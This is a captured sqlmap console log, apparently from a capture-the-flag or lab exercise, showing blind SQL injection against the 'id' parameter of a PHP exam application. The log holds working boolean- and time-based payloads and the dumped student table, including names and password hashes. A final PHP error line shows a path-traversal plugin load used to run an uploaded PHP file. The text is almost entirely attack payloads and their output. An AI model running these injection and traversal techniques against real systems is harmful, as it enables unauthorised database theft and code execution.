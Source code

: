 [!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 11:41:01 /2022-07-20/

[11:41:01] [INFO] resuming back-end DBMS 'mysql' 
[11:41:01] [INFO] testing connection to the target URL
you have not declared cookie(s), while server wants to set its own ('PHPSESSID=10cc95aff13...2ed839b959'). Do you want to use those [Y/n] Y
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: p=take_exam&id=1' AND 1565=1565 AND 'Vlli'='Vlli

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: p=take_exam&id=1' AND (SELECT 8047 FROM (SELECT(SLEEP(5)))Verc) AND 'RSwQ'='RSwQ
---
[11:41:01] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian 10 (buster)
web application technology: PHP 7.2.34, PHP, Apache 2.4.38
back-end DBMS: MySQL >= 5.0.12
[11:41:01] [INFO] fetching columns for table 'student' in database 'db_sfms'
[11:41:01] [WARNING] running in a single-thread mode. Please consider usage of option '--threads' for faster data retrieval
[11:41:01] [INFO] retrieved: 7
[11:41:02] [INFO] retrieved: stud_id
[11:41:04] [INFO] retrieved: stud_no
[11:41:07] [INFO] retrieved: firstname
[11:41:09] [INFO] retrieved: lastname
[11:41:11] [INFO] retrieved: gender
[11:41:13] [INFO] retrieved: yr
[11:41:14] [INFO] retrieved: password
[11:41:16] [INFO] fetching entries for table 'student' in database 'db_sfms'
[11:41:16] [INFO] fetching number of entries for table 'student' in database 'db_sfms'
[11:41:16] [INFO] retrieved: 4
[11:41:16] [INFO] retrieved: John
[11:41:17] [INFO] retrieved: Male
[11:41:19] [INFO] retrieved: Smith
[11:41:20] [INFO] retrieved: 1a40620f9a4ed6cb8d81a1d365559233
[11:41:30] [INFO] retrieved: 1
[11:41:30] [INFO] retrieved: 12345
[11:41:32] [INFO] retrieved: 1A
[11:41:33] [INFO] retrieved: James
[11:41:34] [INFO] retrieved: Male
[11:41:35] [INFO] retrieved: Mille
[11:41:37] [INFO] retrieved: abb635c915b0cc296e071e8d76e9060c
[11:41:47] [INFO] retrieved: 2
[11:41:47] [INFO] retrieved: 23347
[11:41:49] [INFO] retrieved: 2B
[11:41:49] [INFO] retrieved: Kelly
[11:41:51] [INFO] retrieved: Female
[11:41:53] [INFO] retrieved: Shane
[11:41:54] [INFO] retrieved: a2afa567b1efdb42d8966353337d9024
[11:42:04] [INFO] retrieved: 3
[11:42:04] [INFO] retrieved: 31234
[11:42:05] [INFO] retrieved: 2C
[11:42:06] [INFO] retrieved: Jamie
[11:42:08] [INFO] retrieved: Female
[11:42:09] [INFO] retrieved: Hales
[11:42:11] [INFO] retrieved: a1428092eb55781de5eb4fd5e2ceb835

[08-Apr-2022 17:55:26 +0000]: PHP Error: No plugin class ../../../../../../../../../var/www/html/oldmanagement/files/31234/papers found in /var/www/html/mastermailer/plugins/../../../../../../../../../var/www/html/oldmanagement/files/31234/papers/../../../../../../../../../var/www/html/oldmanagement/files/31234/papers.php in /var/www/html/mastermailer/program/lib/Roundcube/rcube_plugin_api.php on line 188 (GET /mastermailer/)